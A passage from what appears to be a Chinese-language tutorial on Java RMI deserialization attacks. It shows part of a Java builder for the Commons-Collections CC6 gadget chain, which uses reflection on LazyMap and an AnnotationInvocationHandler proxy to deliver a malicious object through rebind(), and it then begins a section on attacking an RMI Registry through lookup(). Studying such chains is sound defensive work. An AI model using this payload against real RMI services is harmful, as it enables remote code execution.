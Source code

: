             // 6. 把 lazyMap 中塞入的 key 给去掉
            lazyMap.remove("EndlessShw");
            // 当然也可以使用 clear
            // lazyMap.clear();
            // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
            Field factoryField = lazyMap.getClass().getDeclaredField("factory");
            factoryField.setAccessible(true);
            factoryField.set(lazyMap, transformedChain);
    
            // 上面的部分是 CC6 链主体部分，由于 rebind 的对象要继承 Remote，因此还需要使用动态代理
            Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
            aIHClassDeclaredConstructor.setAccessible(true);
            InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, toBeSerializedHashMap);
            return (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, invocationHandler);
        }
    }
    
    ```

    特别需要注意的点就是：**由于 `rebind()` 的对象要继承 `Remote`，因此还需要使用动态代理**。

4. 下文还有通过重写 `rebind()` 来绕过该限制的攻击手法。

#### 2.2.2 客户端攻击 Registry 端

1. 客户端攻击主要也就是走的 `lookup()`。不过 `lookup()` 也像 `rebind()` 有注意的地方，那就是原生的 `lookup()` 只接收 `String` 类型：
    ![image-20250314145513908](RMI/image-20250314145513908.png)
    那客户端如何发起攻击？因此就需要客户端手动来发起请求。
